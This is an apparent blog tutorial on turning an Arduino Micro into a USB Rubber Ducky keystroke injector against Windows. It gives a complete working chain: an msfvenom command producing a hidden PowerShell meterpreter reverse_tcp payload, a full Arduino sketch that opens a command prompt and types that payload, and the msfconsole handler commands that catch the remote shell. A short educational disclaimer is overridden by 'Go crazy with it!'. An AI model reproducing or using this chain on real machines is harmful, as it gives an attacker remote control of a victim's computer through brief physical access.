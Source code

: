 ```yaml
---
layout: post
title:  "USB Rubber Ducky with Arduino Micro"
date:   2019-03-17 19:28:52 +0300
comments: true
categories: [Arduino, GNULinux]
---
```

***DISCLAIMER:*** *This is merely a proof of concept for education purposes. Use it only against your own networks and devices!*

In this post I will show you how to open a [meterpreter backdoor](https://www.offensive-security.com/metasploit-unleashed/about-meterpreter/) in a target Windows system using a Arduino Micro acting as a HID keyboard. This attack vector was first developed by the [Hak5](https://shop.hak5.org) community, given the name [Rubber Ducky](https://github.com/hak5darren/USB-Rubber-Ducky/wiki). It basically exploits the fact that some micro-controllers have the capacity to act as a [HID](https://en.wikipedia.org/wiki/Human_interface_device), which you can use to send commands as if they were coming from a plugged in keyboard.

## Requirements

# Metasploit Framework

[Metasploit](https://www.metasploit.com) is a penetration testing framework which we will use to generate the payload, listen to the backdoor and spawn a meterpreter shell on the target system. The site provides various installers for OS X, Windows (32-bit) and Linux, I will be doing this on a Debian Linux system, but there is no reason why it wouldn't work on any other.

# Arduino Micro

[Arduino Micro](https://store.arduino.cc/usa/arduino-micro) is the smallest Arduino board using a micro-controller capable of HID simulation ([ATmega32U4](https://www.microchip.com/wwwproducts/ATmega32u4)) in our case. We will also use the Arduino IDE to program the board.

## The Code

# msfvenom

First the will need to generate the things which the Arduino will "type". This will be a `reverse_tcp` payload delivered with a Powershell command. Once in `msfconsole`, type
{% highlight python %}
msfvenom -p windows/x64/meterpreter/reverse_tcp -f psh-cmd LPORT=4444 LHOST=YOUR_IP_ADDRESS -o rbr0
{% endhighlight %}

If the target Windows machine is in your local network, then replace `YOUR_IP_ADDRESS` with your local IP address. If the target machine is outside your network, then you will need to provide your global IP address (try `curl icanhazip.com`). However, this will also require [port forwarding](https://portforward.com) if you are behind a router. I am doing this on a [Google Cloud VM instance](https://cloud.google.com/compute/docs/instances/), so I simply had to setup a firewall rule to allow all incoming `tcp:4444` connections. This command will produce a file named `rbr` with a similar content of:

{% highlight python %}
%COMSPEC% /b /c start /b /min powershell.exe -nop -w hidden -e aQBmACgAWwBJAG ...
{% endhighlight %}

This command is basically what will allow us to spawn a meterpreter shell in the target system. Now we will have to find a way to "type" it.

# Arduino IDE

The Arduino [Keyboard](https://www.arduino.cc/reference/en/language/functions/usb/keyboard/) library allows one to "send keystrokes to an attached computer through their micro’s native USB port". So our job is to simply save the command as a string and then type it out. However, there is a subtle problem: the command is about 7KB's. The onboard SRAM memory storing the code variables on the ATmega32U4 only has a 2.5 KB capacity. This means we will have to use the onboard flash memory of 32 KB, since the command to be typed out doesn't change. The Arduino IDE provides the keyword [PROGMEM](https://www.arduino.cc/reference/en/language/variables/utilities/progmem/) for this. Data stored in this manner also has its own functions for access, so use caution.

The command is to be written on the Windows Command Prompt, so we will also have to send the keystrokes Windows(❖) + R then type `cmd` then press `ENTER` to get a `cmd` window.

Below is the Arduino sketch that I have come up with:

{% highlight cpp %}
/*
 *    USB Rubber Ducky with Arduino Micro
 *    
 *    Provided the output of a psh-cmd from msfvenom, this code spawns a meterpreter session in the Windows target machine.
 *    The psh-cmd is stored in the FLASH memory, so the maximum command size is about 28KB in an Arduino Micro.
 *    The whole thing takes about 16 seconds to execute with a command of 7KB.
 *    
 *    Created 17 March 2019
 *    By Mirac L. Gulgonul
 *    
 *    https://mlg556.github.io
 *    
 *    This work is licensed under a Creative Commons Attribution-ShareAlike 3.0 Unported License
 *    https://creativecommons.org/licenses/by-sa/3.0/
 */

#include "Keyboard.h"

const char command[] PROGMEM = {}; // Array pre-allocation on the FLASH memory to store the command.
char chr; // Variable to store the current character of the command.

// The main method, initialises the Keyboard module, opens the Command Prompt and sends the command.
void setup() {
    Keyboard.begin();
    delay(500); // The minimum delay needed.
    cmdOpen();
    typer();
    Keyboard.write(KEY_RETURN);
}

// Does nothing
void loop() {}

// Sends the keystrokes of the psh-command by looping through every character and using Keyboard.write()
void typer() {
    for (int i = 0; i < strlen_P(command); i++) {
        chr = pgm_read_byte_near(command + i);
        Keyboard.write(chr);
    }
}

// Opens a the Command Prompt. Basically hitting Windows+R, typing "cmd" and pressing ENTER.
void cmdOpen() {
    Keyboard.press(KEY_LEFT_GUI);
    Keyboard.press('r');
    delay(30);
    Keyboard.releaseAll();
    delay(100);
    Keyboard.println("cmd");
    Keyboard.write(KEY_RETURN);
    delay(500);
}
{% endhighlight %}

## msfconsole

Now that the payload is ready to be "typed", we have to be listening to it. In `msfconsole`, type:
{% highlight ruby %}
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 0.0.0.0
set LPORT 4444
run
{% endhighlight %}

Now that we are listening, you can finally insert your Arduino/Rubber Ducky to the target machine. If all goes well (my version takes about 16 seconds in total) you will be presented with a meterpreter session. Go crazy with it! (or type `help`).

## Downloads

[rubber.ino][1]

[1]:{{ site.url }}/downloads/2019-03-17-usb-rubber-ducky-with-arduino-micro/rubber.ino
